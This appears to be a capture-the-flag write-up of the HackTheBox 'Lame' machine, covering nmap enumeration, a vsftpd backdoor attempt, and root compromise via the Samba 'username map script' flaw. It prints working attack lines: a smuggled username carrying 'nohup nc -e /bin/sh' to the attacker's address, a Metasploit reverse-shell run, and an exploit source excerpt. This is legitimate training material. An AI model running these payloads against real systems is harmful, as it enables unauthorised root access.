

Welcome to this pentest report on the "Lame" machine from HackTheBox! I'll be walking through every step along the way in enumerating and compromising the target. I'll show how to perform each exploit both with and without Metasploit, in practice for the OSCP exam. Let's get started!

## Enumeration

As always, we'll start off with an `nmap` port scan. This will by default, scan the top 1000 ports:

```
$ sudo nmap 10.10.10.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 13:19 CEST
Nmap scan report for 10.10.10.3
Host is up (0.0090s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds
```

We run with `sudo` to make sure `nmap` has sufficient permissions to perform the optimal scan type. [From the documentation](https://nmap.org/book/man-port-scanning-techniques.html):

> **Port Scanning Techniques**
>
> ...
>
> Most of the scan types are only available to privileged users. This is because they send and receive raw packets, which requires root access on Unix systems.
>
> ...
>
> This section documents the dozen or so port scan techniques supported by Nmap.
>
> **`-sS` (TCP SYN scan)**
>
> SYN scan is the default and most popular scan option for good reasons. It can be performed quickly, scanning thousands of ports per second on a fast network not hampered by restrictive firewalls. It is also relatively unobtrusive and stealthy since it never completes TCP connections. SYN scan works against any compliant TCP stack rather than depending on idiosyncrasies of specific platforms as Nmap's FIN/NULL/Xmas, Maimon and idle scans do. It also allows clear, reliable differentiation between the open, closed, and filtered states.
>
> This technique is often referred to as half-open scanning, because you don't open a full TCP connection. You send a SYN packet, as if you are going to open a real connection and then wait for a response. A SYN/ACK indicates the port is listening (open), while a RST (reset) is indicative of a non-listener. If no response is received after several retransmissions, the port is marked as filtered. The port is also marked filtered if an ICMP unreachable error (type 3, code 0, 1, 2, 3, 9, 10, or 13) is received. The port is also considered open if a SYN packet (without the ACK flag) is received in response. This can be due to an extremely rare TCP feature known as a simultaneous open or split handshake connection ([source](https://nmap.org/misc/split-handshake.pdf)).
>
> **`-sT` (TCP connect scan)**
>
> TCP connect scan is the default TCP scan type when SYN scan is not an option. This is the case when a user does not have raw packet privileges. Instead of writing raw packets as most other scan types do, Nmap asks the underlying operating system to establish a connection with the target machine and port by issuing the connect system call. This is the same high-level system call that web browsers, P2P clients, and most other network-enabled applications use to establish a connection. It is part of a programming interface known as the Berkeley Sockets API. Rather than read raw packet responses off the wire, Nmap uses this API to obtain status information on each connection attempt.
>
> **When SYN scan is available, it is usually a better choice. Nmap has less control over the high level connect call than with raw packets, making it less efficient. The system call completes connections to open target ports rather than performing the half-open reset that SYN scan does. Not only does this take longer and require more packets to obtain the same information, but target machines are more likely to log the connection.**
>
> ...

Our port scan of the top 1000 ports has identified `4` open TCP ports. This does not say anything about the other `65535 - 1000 = 64535` TCP ports, but for now this is enough to move forward.

We know that port 21, amongst others, is open and it is running some kind of FTP service. To improve our knowledge, we will want to perform another scan with enabled version detection. We can do this using the `-sV` flag for `nmap`:

```
$ sudo nmap -sV 10.10.10.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 15:15 CEST
Nmap scan report for 10.10.10.3
Host is up (0.0070s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.93 seconds
```

As you can see, the report returned by `nmap` is much more detailed this time, and we now have a software name and corresponding version number for each open port.

`vsFTPd` (_very secure FTP daemon_) is an FTP server for Unix-like operating systems. `FTP` or _File Transfer Protocol_ is a standard for the exchange and storage of documents between servers and clients. So far we have not identified whether `vsFTPd` is running at all on `10.10.10.3`, let alone the version.

## Vulnerabilities

Now that we know what services are running on Lame and their respective versions, we can move on to the next stage: identifying possible vulnerabilities. I'll start by reading the [Wikipedia page for vsFTPd](https://en.wikipedia.org/wiki/Vsftpd), which does a fine job at explaining this backdoor:

> In July 2011, it was discovered that vsftpd version 2.3.4 downloadable from the master site had been compromised. Users logging into a compromised vsftpd-2.3.4 server may issue a "`:)`" smileyface as the username and gain a command shell on port 6200. This was not an issue of a security hole in vsftpd, instead, an unknown attacker had uploaded a different version of vsftpd which contained a backdoor. Since then, the site was moved to Google App Engine.

That's what I call a cool backdoor! Let's give it a try:

```
$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER jens:)
331 Please specify the password.
PASS mypassword
```

Then in another terminal:

```
$ nc -w 5 10.10.10.3 6200
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```

Sadly enough that does not seem to be working! That must mean that either the backdoor is not being triggered, or there is a firewall in front blocking our connection. Just to make sure, we can try using the Metasploit module to see if it works then. If you haven't heard about Metasploit before, it is a framework for penetration testing comprised of many pre-made exploit modules for common CVE's and all the privilege escalation tools you could need. It can be considered "cheating" by some, which I why try to show exploits both by using Metasploit and performing them manually. This is also in preparation for the OSCP exam, where the use of Metasploit is not permitted. I will show it here and you will quickly understand its addictive ease of use:

```
$ msfconsole

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 1
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

The payload already seems to be set correctly, so we can go ahead and run the exploit:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

It does not work either!

We haven't talked about Samba yet. [As you can read on Wikipedia](<https://en.wikipedia.org/wiki/Samba_(software)>), it is an implementation of the _Server Message Block_ protocol (`SMB`). `SMB` is an alternative to FTP that goes far beyond file sharing and also handles printers amongst other general computer network communication. It previously depended heavily on the [NetBIOS](https://en.wikipedia.org/wiki/NetBIOS), which is a system of services that run the [session layer](https://en.wikipedia.org/wiki/Session_layer) of the [OSI model](https://en.wikipedia.org/wiki/OSI_model). `netbios-ssn` stands for the NetBIOS session service. In modern times SMB has been moved to TCP port 445, and no longer relies on NetBIOS for communication. Port 139 is only really still listening to ensure backwards compatibility with older systems.

Let's look back at our last `nmap` scan:

```
$ sudo nmap -sV -oN lame 10.10.10.3

<same as before>

$ ls -l

total 4
-rw-r--r-- 1 root root 745 Apr  7 15:48 lame

$ cat lame | grep Samba

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Here I quickly ran the scan again, but passing the `-oN lame` flag to have `nmap` store its output in a file called `lame` in addition to printing it to the terminal (which I omitted as it is the same as last time). This makes it easy to then pipe the output into another command like `grep` by which means I "filtered" the result such that we only see what is related to Samba.

As we can see we do not get a precise answer as to the version of Samba that is running on Lame. This is because we have not enabled the _Nmap Scripting Engine_ (`NSE`). This is a collection of Lua scripts that add additional enumeration capabilities to `nmap`, and one of those scripts, part of the default set, called `smb-os-discovery` is particularly useful here. It can collect the information we are looking for. We will run another scan, but this time passing the flag `-sC` to perform a script scan using the default set of scripts:

```
$ sudo nmap -sV -sC -oN lame 10.10.10.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 15:53 CEST
Nmap scan report for 10.10.10.3
Host is up (0.0072s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-07T09:54:39-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m29s, deviation: 2h49m45s, median: 26s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.12 seconds
```

Again we'll employ some handy filtering:

```
$ cat lame | grep Samba

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
|   OS: Unix (Samba 3.0.20-Debian)
```

This time the Samba listener on port 445 reveals to us the specific version of `3.0.20`. Alternatively, we could have discovered the same information using the `smbmap` tool:

```
$ smbmap -H 10.10.10.3

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...
[*] Detected 1 hosts serving SMB
[|] Authenticating...
[*] Established 1 SMB connections(s) and 1 authenticated session(s)
[/] Authenticating...
[-] Enumerating shares...

[+] IP: 10.10.10.3:445  Name: 10.10.10.3  Status: Authenticated
Disk        Permissions       Comment
----        -----------       -------
print$      NO ACCESS         Printer Drivers
tmp         READ, WRITE       oh noes!
opt         NO ACCESS
IPC$        NO ACCESS         IPC Service (lame server (Samba 3.0.20-Debian))
ADMIN$      NO ACCESS         IPC Service (lame server (Samba 3.0.20-Debian))
```

A quick directory listing of the `tmp` share won't hurt:

```
$ smbclient -N //10.10.10.3/tmp
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr  7 17:32:10 2025
  ..                                 DR        0  Sat Oct 31 07:33:58 2020
  5569.jsvc_up                        R        0  Mon Apr  7 13:09:43 2025
  .ICE-unix                          DH        0  Mon Apr  7 13:08:42 2025
  vmware-root                        DR        0  Mon Apr  7 13:09:10 2025
  .X11-unix                          DH        0  Mon Apr  7 13:09:08 2025
  .X0-lock                           HR       11  Mon Apr  7 13:09:08 2025
  vgauthsvclog.txt.0                  R     1600  Mon Apr  7 13:08:41 2025

		7282168 blocks of size 1024. 5386504 blocks available
```

No interesting files here, `tmp` is probably mapped to `/tmp`. The flag `-N` here just means that `smbclient` won't prompt me for a password.

Now that we've learned what version of Samba we're dealing with, we can search for vulnerabilities that we can exploit.


A quick Google Search will point us to `CVE-2007-2447`.

## Exploitation



Strangely enough, the description on the NVD website does not tell us which user the shell is as. So let's fire up Metasploit and just give it a try, we'll find out!

### With Metasploit

```
$ msfconsole

msf6 > search samba username map

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.102.181  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => 10.10.14.17

msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:59500) at 2025-04-07 17:37:52 +0200

id
uid=0(root) gid=0(root)
```

### Without Metasploit

Let's take a brief look at the [Metasploit exploit source code](https://www.exploit-db.com/exploits/16320) to understand what's going on:

```python
...

def exploit
  connect

  # lol?
  username = "/=`nohup " + payload.encoded + "`"
  begin
    simple.client.negotiate(false)
    simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
  rescue ::Timeout::Error, XCEPT::LoginError
    # nothing, it either worked or it didn't ;)
  end

  handler
end

...
```

Apparently, the vulnerability is some kind of command injection into the SMB username: you can insert shell metacharacters and it can allow for executing of arbitrary commands. The `nohup` then is used to escape the current context. Let's try it out!

First we'll set up the listener:

```
$ nc -lvnp 4445
listening on [any] 4445 ...
```

Now for the exciting part:

```
$ smbclient //10.10.10.3/tmp -U '/=`nohup nc -e /bin/sh 10.10.14.17 4445`'
Password for [=`NOHUP NC -E \bin/sh 10.10.14.17 4445`]:
```

Note the `'` instead of the usual `"`, this is important to make sure the <code>`</code> backticks are sent across the wire as part of the username and not interpreted by **my** shell.

Strangely enough the username seems to be getting partially _capitalized???_, which is a problem! The capitalized binary names are not going to be recognized properly!

```
$ smbclient -N //10.10.10.3/tmp

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon '/=`nohup nc -e /bin/sh 10.10.14.17 4445`'
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \>
```

Now weirdly enough, I have to swap back the `'` for `"` to get it to work:

```
smb: \> logon "/=`nohup nc -e /bin/sh 10.10.14.17 4445`"
Password:
```

I'll hit `ENTER` at the prompt, and surely enough, back in the terminal where we set up the listener:

```
$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.3] 56537

id
uid=0(root) gid=0(root)
```

We get a shell as the `root` user!

## Capturing the flag

Whether we established our shell using Metasploit or manually, we can "upgrade" it to a Bash shell with a prompt using Python:

```
python -c 'import pty; pty.spawn("bash")'

root@lame:/#
```

Then to claim our flags:

```
root@lame:/# cat /home/makis/user.txt

a23f537b1f67cce50f4d42cc41******

root@lame:/# cat /root/root.txt

ee2fac6c5e425c755de2640c78******
```

## Reflecting

We should improve our understanding of what worked and what didn't and **why**. Let's check the output of `netstat -tnlp`:

```
root@lame:/# netstat -tnlp

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      5440/xinetd
tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      5440/xinetd
tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      5440/xinetd
tcp        0      0 0.0.0.0:50568           0.0.0.0:*               LISTEN      5333/rpc.mountd
tcp        0      0 0.0.0.0:50024           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN      5569/jsvc
tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      5631/unrealircd
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      5157/mysqld
tcp        0      0 0.0.0.0:1099            0.0.0.0:*               LISTEN      5610/rmiregistry
tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      5631/unrealircd
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      5411/smbd
tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      5629/Xtightvnc
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      4611/portmap
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      5629/Xtightvnc
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5589/apache2
tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN      5614/ruby
tcp        0      0 0.0.0.0:8180            0.0.0.0:*               LISTEN      5569/jsvc
tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN      5440/xinetd
tcp        0      0 0.0.0.0:36341           0.0.0.0:*               LISTEN      5610/rmiregistry
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      5440/xinetd
tcp        0      0 10.10.10.3:53           0.0.0.0:*               LISTEN      5010/named
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      5010/named
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      5440/xinetd
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      5238/postgres
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      5401/master
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      5010/named
tcp        0      0 0.0.0.0:55513           0.0.0.0:*               LISTEN      4630/rpc.statd
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      5411/smbd
tcp6       0      0 :::2121                 :::*                    LISTEN      5479/proftpd: (acce
tcp6       0      0 :::3632                 :::*                    LISTEN      5265/distccd
tcp6       0      0 :::53                   :::*                    LISTEN      5010/named
tcp6       0      0 :::22                   :::*                    LISTEN      5034/sshd
tcp6       0      0 :::5432                 :::*                    LISTEN      5238/postgres
tcp6       0      0 ::1:953                 :::*                    LISTEN      5010/named
```

There must be a _firewall_ blocking all of these ports!

### `vsftpd` debugging

Why did this exploit not work when the version is vulnerable? We already went over the following earlier (from Wikipedia):

> Users logging into a compromised vsftpd-2.3.4 server may issue a "`:)`" smileyface as the username and gain a command shell on port 6200.

Port 6200? Let's try and see! Before triggering the backdoor, the port is closed:

```
root@lame:/# nc 127.0.0.1 6200

(UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused
```

Next we'll trigger the backdoor, specifying the username with smileyface:

```
root@lame:/# nc 127.0.0.1 21

220 (vsFTPd 2.3.4)
USER jens:)
331 Please specify the password.
PASS mypassword
```

If we check with `netstat` we can see, the port is now listening:

```
root@lame:/# netstat -tnlp | grep 6200

netstat -tnlp | grep 6200
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      6679/vsftpd
```

And so we can connect to port 6200 locally and get a shell as root:

```
root@lame:/# nc 127.0.0.1 6200

id
uid=0(root) gid=0(root)
```

And that wraps up the writeup! Thanks for sticking around until the end! Happy hacking!
